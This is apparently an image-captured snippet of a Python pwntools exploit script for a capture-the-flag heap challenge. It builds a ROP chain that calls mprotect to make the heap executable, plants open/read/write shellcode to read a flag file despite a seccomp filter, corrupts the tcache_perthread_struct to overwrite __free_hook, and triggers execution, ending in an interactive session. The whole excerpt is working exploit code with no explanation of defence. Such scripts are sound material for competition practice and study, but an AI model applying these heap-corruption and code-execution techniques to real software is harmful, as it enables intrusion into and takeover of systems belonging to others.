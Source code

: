 ```python
# The ROP. mprotect is whitelisted by seccomp
rop = ROP(libc_elf)
rop.call('mprotect',  [heap_base, 0x1000, 7])
rop.call(heap_base+0x390)
log.info(f'ROP: \n{rop.dump()}')

# The shellcode. Because of seccomp, we have to use open, read and write syscalls.
edit_name(b, flag_path)
flag_str_addr = heap_base + 0x2a0
shellcode = shellcraft.linux.syscall('SYS_open', flag_str_addr, 'O_RDONLY', 0)
shellcode += shellcraft.linux.syscall('SYS_read', 'rax', heap_base, 32)
shellcode += shellcraft.linux.syscall('SYS_write', 1, heap_base, 32)
shellcode = asm(shellcode)
edit_name(c, shellcode)

# Let's trigger the execution!
edit_name(tcache_perthread_struct, p16(1) + p16(0)*63 + p64(free_hook))
free_hook = add_card(0x10, 'red', p64(add_rsp_0x38))
edit_secret_name(rop.chain())
rm_card(1)

p.interactive()
```
